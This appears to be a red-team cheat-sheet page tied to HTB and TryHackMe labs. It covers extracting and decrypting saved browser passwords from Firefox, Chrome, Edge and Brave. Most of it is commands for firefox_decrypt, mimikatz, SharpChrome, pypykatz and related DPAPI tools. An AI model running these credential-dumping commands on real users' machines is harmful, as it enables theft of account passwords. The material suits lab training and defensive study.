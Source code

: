 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(1.8k ⭐)</small>. To install it on Kali:

```ps
$ cd /opt
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python3.9 firefox_decrypt.py -h
$ python3.9 firefox_decrypt.py /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```

#### Extract Chrome Dictionaries

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

Users may have added some sensitive information inside their personal browser dictionary <small>(email/username/...)</small>.

```ps
PS> ls "$Env:localappdata/Google/Chrome/User Data/Default/Custom Dictionary.txt"
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user browser sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

* **Decrypt on Windows** using [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(0.8k ⭐)</small>

* **Decrypt on Windows** [mimikatz](/cybersecurity/red-team/tools/utilities/creds/mimikatz.md)

For the current user, you can use:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

* **Decrypt on Windows** using [SharpChrome](https://github.com/GhostPack/SharpDPAPI) <small>(1.0k ⭐)</small> | [compiled](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

```shell!
PS> .\SharpChrome.exe logins /unprotect
```

* **Decrypt on Linux** using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md)

Passwords are stored [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database in `./<profile>/Login Data` such as `./Default/Login Data`. They are encrypted using a base64-encoded key in `./Local State`. You can display it using:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<encrypted secret key here>"
```

On Windows, the key is encrypted using [DPAPI master key](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi). Once you got it, you can decrypt the database using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md):

```shell!
$ cat mkf # master kejson file created by pypykatz
{
    "backupkeys": {},
    "masterkeys": {
        "H-I-J-K-L": "master_key_here"
    }
}
$ pypykatz dpapi chrome ./mkf "./Local State" --logindata "./Default/Login Data"
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### DPAPI Master Key to extract Secret Key 

Once we have the DPAPI master key, we can alternatively decrypt the encrypted secret key, and use it to decrypt the passwords.

On Linux, we can use [dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng/blob/main/blobdec-with-masterkey.py) <small>(0.1k ⭐)</small> to decrypt the secret key and [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.002k ⭐)</small> to decrypt and dump passwords.

```shell!
$ base64 -d > key.enc <<< "<encrypted secret key here>"
$ python -c "with open('key.enc', 'rb+') as f: data = f.read(); f.seek(0); f.write(data[5:]); f.truncate()" # remove the DPAPI text at the start of the file
$ pip install dpapick3
$ python3 blobdec-with-masterkey.py key.enc --masterkey "<master key here>"
<secret_key_here>
$ python3 dcp.py -S "<secret_key_here>" -P "./Default/Login Data"
```
</div><div>
</div></div>